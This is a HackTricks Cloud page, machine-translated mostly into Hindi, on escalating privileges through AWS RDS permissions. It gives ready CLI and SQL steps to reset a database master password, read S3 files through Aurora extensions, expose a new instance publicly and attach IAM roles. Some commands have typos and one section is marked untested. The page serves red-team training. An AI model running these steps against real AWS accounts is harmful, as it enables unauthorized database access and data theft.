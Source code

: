 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - रिलेशनल डेटाबेस सेवा

RDS के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

उस अनुमति के साथ एक हमलावर **मास्टर उपयोगकर्ता का पासवर्ड संशोधित कर सकता है**, और डेटाबेस के अंदर लॉगिन:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
आपको **डेटाबेस से संपर्क करने** में सक्षम होना चाहिए (वे आमतौर पर केवल आंतरिक नेटवर्क से सुलभ होते हैं)।
{% endhint %}

**संभावित प्रभाव:** डेटाबेस के अंदर संवेदनशील जानकारी खोजें।

### rds-db:connect

[**दस्तावेज़ों**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) के अनुसार, इस अनुमति के साथ एक उपयोगकर्ता DB इंस्टेंस से कनेक्ट कर सकता है।

### RDS भूमिका IAM अनुमतियों का दुरुपयोग

#### Postgresql (Aurora)

{% hint style="success" %}
यदि आप **`SELECT datname FROM pg_database;`** चलाते हैं और आपको **`rdsadmin`** नामक एक डेटाबेस मिलता है, तो आप जानते हैं कि आप एक **AWS postgresql डेटाबेस** के अंदर हैं।
{% endhint %}

पहले आप यह जांच सकते हैं कि क्या इस डेटाबेस का उपयोग किसी अन्य AWS सेवा तक पहुँचने के लिए किया गया है। आप स्थापित एक्सटेंशन को देखकर यह जांच सकते हैं:
```sql
SELECT * FROM pg_extension;
```
यदि आप कुछ ऐसा पाते हैं जैसे **`aws_s3`** तो आप मान सकते हैं कि इस डेटाबेस के पास **S3 पर कुछ प्रकार की पहुंच है** (अन्य एक्सटेंशन जैसे **`aws_ml`** और **`aws_lambda`** भी हैं)।

इसके अलावा, यदि आपके पास **`aws rds describe-db-clusters`** चलाने की अनुमति है, तो आप वहां देख सकते हैं कि **क्लस्टर में कोई IAM भूमिका संलग्न है** या नहीं, क्षेत्र **`AssociatedRoles`** में। यदि कोई है, तो आप मान सकते हैं कि डेटाबेस **अन्य AWS सेवाओं तक पहुंचने के लिए तैयार किया गया था**। **भूमिका के नाम** के आधार पर (या यदि आप भूमिका के **अनुमतियों** को प्राप्त कर सकते हैं) आप **अनुमान** लगा सकते हैं कि डेटाबेस के पास क्या अतिरिक्त पहुंच है।

अब, **बकेट के अंदर एक फ़ाइल पढ़ने के लिए** आपको पूरा पथ जानना होगा। आप इसे पढ़ सकते हैं:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
यदि आपके पास **कच्चे AWS क्रेडेंशियल्स** हैं, तो आप उन्हें S3 डेटा तक पहुँचने के लिए भी उपयोग कर सकते हैं:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **को S3 तक पहुँचने के लिए किसी भी पैरामीटर समूह चर को बदलने की आवश्यकता नहीं है**।
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
एक mysql के अंदर, यदि आप क्वेरी **`SELECT User, Host FROM mysql.user;`** चलाते हैं और वहाँ एक उपयोगकर्ता है जिसका नाम **`rdsadmin`** है, तो आप मान सकते हैं कि आप एक **AWS RDS mysql db** के अंदर हैं।
{% endhint %}

Mysql के अंदर **`show variables;`** चलाएँ और यदि चर जैसे **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** के मान हैं, तो आप मान सकते हैं कि डेटाबेस S3 डेटा तक पहुँचने के लिए तैयार है।

इसके अलावा, यदि आपके पास **`aws rds describe-db-clusters`** चलाने की अनुमति है, तो आप जांच सकते हैं कि क्या क्लस्टर में कोई **संबंधित भूमिका** है, जो आमतौर पर AWS सेवाओं तक पहुँच का मतलब है।

अब, एक **बकेट के अंदर एक फ़ाइल पढ़ने के लिए** आपको पूरा पथ जानना होगा। आप इसे पढ़ सकते हैं:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

एक हमलावर जिसके पास `rds:AddRoleToDBCluster` और `iam:PassRole` की अनुमति है, वह **एक मौजूदा RDS इंस्टेंस में एक निर्दिष्ट भूमिका जोड़ सकता है**। इससे हमलावर को **संवेदनशील डेटा तक पहुंचने** या इंस्टेंस के भीतर डेटा को संशोधित करने की अनुमति मिल सकती है।
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**संभावित प्रभाव**: RDS उदाहरण में संवेदनशील डेटा तक पहुंच या डेटा में अनधिकृत संशोधन।\
ध्यान दें कि कुछ DBs को अतिरिक्त कॉन्फ़िगरेशन की आवश्यकता होती है जैसे Mysql, जिसे पैरामीटर समूहों में भूमिका ARN निर्दिष्ट करने की आवश्यकता होती है।

### `rds:CreateDBInstance`

इस अनुमति के साथ एक हमलावर एक **क्लस्टर के अंदर एक नया उदाहरण** बना सकता है जो पहले से मौजूद है और जिसमें एक **IAM भूमिका** संलग्न है। वह मास्टर उपयोगकर्ता पासवर्ड को बदलने में असमर्थ होगा, लेकिन वह नए डेटाबेस उदाहरण को इंटरनेट पर उजागर करने में सक्षम हो सकता है:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: टेस्ट करें
{% endhint %}

An attacker with the permissions `rds:CreateDBInstance` and `iam:PassRole` can **एक निर्दिष्ट भूमिका के साथ एक नया RDS उदाहरण बना सकता है**. The attacker can then potentially **संवेदनशील डेटा तक पहुँच प्राप्त कर सकता है** या उदाहरण के भीतर डेटा को संशोधित कर सकता है.

{% hint style="warning" %}
Some requirements of the role/instance-profile to attach (from [**यहाँ**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* प्रोफ़ाइल आपके खाते में मौजूद होनी चाहिए.
* प्रोफ़ाइल में एक IAM भूमिका होनी चाहिए जिसे Amazon EC2 को मानने की अनुमति हो.
* उदाहरण प्रोफ़ाइल नाम और संबंधित IAM भूमिका नाम को `AWSRDSCustom` प्रीफिक्स से शुरू होना चाहिए.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**संभावित प्रभाव**: RDS उदाहरण में संवेदनशील डेटा तक पहुंच या डेटा में अनधिकृत संशोधन।

### `rds:AddRoleToDBInstance`, `iam:PassRole`

एक हमलावर जिसके पास `rds:AddRoleToDBInstance` और `iam:PassRole` की अनुमति है, वह **एक मौजूदा RDS उदाहरण में एक निर्दिष्ट भूमिका जोड़ सकता है**। इससे हमलावर को **संवेदनशील डेटा तक पहुंच** या उदाहरण के भीतर डेटा को संशोधित करने की अनुमति मिल सकती है।

{% hint style="warning" %}
DB उदाहरण को क्लस्टर के बाहर होना चाहिए इसके लिए
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**संभावित प्रभाव**: RDS उदाहरण में संवेदनशील डेटा तक पहुंच या डेटा में अनधिकृत संशोधन।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
